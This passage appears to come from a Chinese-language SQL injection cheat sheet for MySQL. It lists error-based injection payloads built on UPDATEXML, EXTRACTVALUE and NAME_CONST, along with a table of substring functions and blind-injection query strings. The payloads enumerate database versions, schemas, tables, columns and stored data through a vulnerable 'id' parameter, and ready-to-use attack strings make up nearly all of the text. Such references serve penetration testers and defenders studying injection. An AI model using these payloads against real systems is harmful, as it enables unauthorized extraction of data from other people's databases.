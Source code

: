 更短的可读版本：

```sql
UPDATEXML(null,CONCAT(0x0a,version()),null)-- -
UPDATEXML(null,CONCAT(0x0a,(select table_name from information_schema.tables where table_schema=database() LIMIT 0,1)),null)-- -
```

### MYSQL 错误基于 - Extractvalue 函数

适用于 `MySQL >= 5.1`

```sql
?id=1 AND EXTRACTVALUE(RAND(),CONCAT(CHAR(126),VERSION(),CHAR(126)))--
?id=1 AND EXTRACTVALUE(RAND(),CONCAT(0X3A,(SELECT CONCAT(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)))--
?id=1 AND EXTRACTVALUE(RAND(),CONCAT(0X3A,(SELECT CONCAT(CHAR(126),table_name,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)))--
?id=1 AND EXTRACTVALUE(RAND(),CONCAT(0X3A,(SELECT CONCAT(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)))--
?id=1 AND EXTRACTVALUE(RAND(),CONCAT(0X3A,(SELECT CONCAT(CHAR(126),data_column,CHAR(126)) FROM data_schema.data_table LIMIT data_offset,1)))--
```

### MYSQL 错误基于 - NAME_CONST 函数 (仅常量)

适用于 `MySQL >= 5.0`

```sql
?id=1 AND (SELECT * FROM (SELECT NAME_CONST(version(),1),NAME_CONST(version(),1)) as x)--
?id=1 AND (SELECT * FROM (SELECT NAME_CONST(user(),1),NAME_CONST(user(),1)) as x)--
?id=1 AND (SELECT * FROM (SELECT NAME_CONST(database(),1),NAME_CONST(database(),1)) as x)--
```

## MYSQL 盲注

### MYSQL 盲注与子串等效

| 函数 | 示例 | 描述 |
| --- | --- | --- |
| `SUBSTR` | `SUBSTR(version(),1,1)=5` | 从字符串中提取子串（从任意位置开始） |
| `SUBSTRING` | `SUBSTRING(version(),1,1)=5` | 从字符串中提取子串（从任意位置开始） |
| `RIGHT` | `RIGHT(left(version(),1),1)=5` | 从字符串中提取一定数量的字符（从右开始） |
| `MID` | `MID(version(),1,1)=4` | 从字符串中提取子串（从任意位置开始） |
| `LEFT` | `LEFT(version(),1)=4` | 从字符串中提取一定数量的字符（从左开始） |

使用 `SUBSTRING` 或其他等效函数进行盲 SQL 注入的示例：

```sql
?id=1 AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'
?id=1 AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'
?id=1 AND ASCII(LOWER(SUBSTR(version(),1,1)))=51
```
